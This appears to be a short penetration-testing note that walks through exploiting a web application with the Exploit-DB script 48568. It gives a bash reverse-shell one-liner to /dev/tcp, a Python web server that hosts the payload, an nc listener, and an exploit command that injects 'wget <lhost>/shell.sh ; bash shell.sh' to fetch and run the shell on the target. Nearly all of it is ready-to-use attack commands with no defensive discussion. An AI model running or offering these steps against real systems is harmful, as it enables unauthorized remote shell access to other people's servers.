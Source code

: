### Prepare file shell.sh and insert
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

### Start webserver
```
python3 -m http.server 80
```

### Start listener
```
nc -lvnp <lport>
```

### Exploit
```
python3 48568.py -user <user> -pass <password> -u http://<rhost> -c "wget <lhost>/shell.sh ; bash shell.sh"
```

### References
https://www.exploit-db.com/exploits/48568  

